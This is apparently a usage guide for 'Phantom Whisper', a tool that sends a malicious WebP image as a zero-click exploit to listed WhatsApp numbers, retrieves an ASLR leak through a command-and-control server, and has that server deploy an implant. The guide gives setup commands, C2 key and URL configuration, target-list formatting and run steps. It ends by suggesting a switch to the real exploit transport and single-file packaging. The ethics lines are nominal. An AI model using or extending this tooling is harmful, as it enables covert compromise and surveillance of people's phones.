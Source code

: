 # Phantom Whisper — Step‑by‑Step Usage Guide

*A zero‑to‑green‑check walkthrough*

---

## 1  Prerequisites

| Requirement                 | Why                                  | Quick Check                |
| --------------------------- | ------------------------------------ | -------------------------- |
| Python 3.9 +                | Typing + `pydantic_settings` support | `python --version`         |
| `virtualenv` or `pyenv`     | Isolate deps                         | *Optional but recommended* |
| Git + GCC/Clang             | Pull & build wheels                  | `git --version`            |
| Out‑of‑scope test device(s) | Ethical testing only                 | Device IMEIs / IDs         |

---

## 2  Clone & Install

```bash
# 2.1  Clone
$ git clone https://github.com/exfil0/phantom_whisper.git
$ cd phantom‑whisper

# 2.2  Create and activate venv
$ python -m venv .venv
$ source .venv/bin/activate

# 2.3  Install deps
$ pip install -r requirements.txt
```

---

## 3  Configure Environment

Create a file named `.env` **in the project root**:

```env
# .env
C2_API_KEY=REPLACE_WITH_REAL_KEY
```

| Variable                        | Description                              |
| ------------------------------- | ---------------------------------------- |
| `C2_API_KEY`                    | Auth token for your C2 service           |
| (Optional) `C2_SERVER_BASE_URL` | Defaults to `https://your-c2-server.com` |

---

## 4  Prepare Payload & Target List

1. Drop your **malicious WebP** into `./payloads/malicious_webp.bin`
      *Keep filename—code resolves by path.*
2. Edit `phantom_whisper/config.py` *or* append to `.env`:

   ```env
   # Comma‑separated WhatsApp IDs
   TARGET_WHATSAPP_IDS="+15551234567,+15557654321"
   ```

---

## 5  Dry‑Run Smoke Test

```bash
$ python -m phantom_whisper.orchestrator --help   # coming soon
$ python -m phantom_whisper.orchestrator          # runs with defaults
```

What to expect:

* Console log lines in plain text.
* `./logs/phantom_whisper.log` populated with JSON entries.

*No network calls will be fired until payload & targets are reachable.*

---

## 6  Live Execution

```bash
# Ensure VPN / lab network is ready
$ python -m phantom_whisper.orchestrator
```

The orchestrator will:

1. **Send Zero‑click WebP** → target device(s)
2. Poll C2 for **ASLR leak** (exponential back‑off)
3. Instruct C2 to **deploy implant** `main_implant_<os>.bin`

Exit code = number of failed targets (0 → 🎉).

---

## 7  Log & Evidence Collection

* **Human‑readable:** console output.
* **Structured:** `logs/phantom_whisper.log` (JSON per line).
* **Hash traceability:** each session includes `payload_hash` + `session_id`.

> Tip: import the JSON log into a SIEM/Grafana for timeline views.

---

## 8  Parallel Mode (Optional)

Uncomment the `ThreadPoolExecutor` block in `orchestrator.py` and set:

```python
settings.max_workers = 4  # or env var in future release
```

---

## 9  Cleanup

```bash
$ deactivate             # leave virtualenv
$ rm -rf .venv logs/*.log
```

---

## 10  Troubleshooting

| Symptom                               | Likely Cause          | Fix                                     |
| ------------------------------------- | --------------------- | --------------------------------------- |
| `requests.exceptions.ConnectionError` | Bad C2 URL / VPN down | Verify `C2_SERVER_BASE_URL`             |
| `PayloadError: not found`             | Wrong payload path    | Confirm `./payloads/malicious_webp.bin` |
| Exit code > 0                         | Some targets failed   | See `logs/` for `ERROR` lines           |

---

### 💡 Next Steps

* Swap simulated WhatsApp transport for real exploit transport.
* Add CLI arg parsing for fully headless use.
* Package with `pyinstaller` for single‑file drop && go.

— **Happy hunting & stay ethical!**
